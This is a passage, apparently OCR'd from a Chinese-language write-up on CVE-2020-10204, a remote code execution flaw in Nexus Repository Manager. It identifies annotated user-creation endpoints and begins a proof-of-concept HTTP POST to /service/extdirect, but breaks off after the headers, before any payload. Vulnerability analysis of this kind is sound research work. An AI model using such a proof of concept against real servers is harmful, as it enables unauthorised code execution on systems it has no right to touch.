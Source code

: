 可以看到总过有三处,以第一处Roles为例,

![](resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId30.png)

可以找到有多处注解使用的地方,比如说新建用户/更新用户,构造Poc如下

    POST /service/extdirect HTTP/1.1
    Host: 127.0.0.1:8081
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    X-Nexus-UI: true
    NX-ANTI-CSRF-TOKEN: 0.029301195082771514
    Content-Type: application/json
    X-Requested-With: XMLHttpRequest
    Content-Length: 350
    Connection: close
    Referer: http://127.0.0.1:8081/
    Cookie: NX-ANTI-CSRF-TOKEN=0.029301195082771514; NXSESSIONID=7eaf0643-2707-445a-b17d-aedced6db8e5
